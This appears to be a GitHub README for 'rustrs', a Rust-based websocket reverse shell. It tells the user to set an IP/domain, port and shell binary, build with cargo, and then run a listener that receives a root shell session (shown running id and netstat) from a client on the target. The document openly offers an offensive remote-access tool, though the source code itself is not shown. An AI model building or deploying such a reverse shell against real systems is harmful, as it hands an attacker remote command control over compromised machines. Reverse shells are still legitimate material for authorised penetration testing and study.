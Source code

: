 # rustrs

portable rust based websocket reverse shell

**Compile**

- Update script: ip/domain, port, binary (cmd.exe, /bin/bash, etc)

```
root@kali:/opt/rustrs# cargo build
    Finished dev [unoptimized + debuginfo] target(s) in 0.02s
```

Build for target platform. 
- https://forge.rust-lang.org/release/platform-support.html

**Usage**

WebSocket Listener

```
root@kali:/opt/rustrs/target/debug# ./server 
waiting for new reverse websocket session..
new session started, connected.
$ id
uid=0(root) gid=0(root) groups=0(root)

$ netstat -pantwu
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      1/init              
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      28346/./server      

```

WebSocket Client (reverse shell)

```
root@kali:/opt/rustrs/target/debug# ./client 

```

Enjoy~
